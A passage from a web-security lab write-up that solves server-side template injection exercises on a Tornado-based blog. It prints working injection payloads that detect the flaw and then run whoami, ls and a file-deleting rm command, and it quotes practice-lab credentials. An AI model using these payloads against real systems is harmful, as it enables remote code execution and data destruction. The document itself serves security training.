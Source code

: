 The name change happens with the request 

```http
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.first_name&csrf=nhoN8qfTAGSaHo7vCwDsuh7TdZpWTM7S
```

Now, let's try some `Tornado` syntax here found on `Hacktricks` and see if the vulnerability lies here.

I modified the request body to:

`blog-post-author-display={{7*7}}...`

And I see now at the comment section that my name is shown as:

![Pasted_image_20250126163855](https://github.com/user-attachments/assets/17ea83eb-3802-4e6e-8f39-f0a31e660d34)

This means that I found a vulnerability here.

I modify the syntax to put the system command `whoami`:

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('whoami')}}`

And the result is:

![Pasted_image_20250126165426](https://github.com/user-attachments/assets/b9858573-7bc9-4322-8801-840eda61bc4e)

So I see the name of `carlos` there, let's see the files in the current directory.

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('ls')}}`

![Pasted_image_20250126165518](https://github.com/user-attachments/assets/e3af7f53-551c-4cd6-a7b1-0a1b2f621d4c)

So, now let's just delete the file: `blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('rm%20+morale.txt')}}`

The file is deleted and the lab is solved.

------------

### Lab.3 Server-Side Template Injection using Documentations

**Description**

The goal of the lab is to identify the template engine and then use the documentation to work out how to execute arbitrary code. Afterwards the main goal is to delete `morale.txt` from the Carlos's home directory

`content-manager:C0nt3ntM4n4g3r` are credentials that can be used to login.

**Solution**

I login with the given credentials, then I go to Home. After I select an article, I see the option to `Edit Template`.

![Pasted_image_20250126170634](https://github.com/user-attachments/assets/b1ff6425-523d-4edb-b9f7-3b8ca0583f7c)
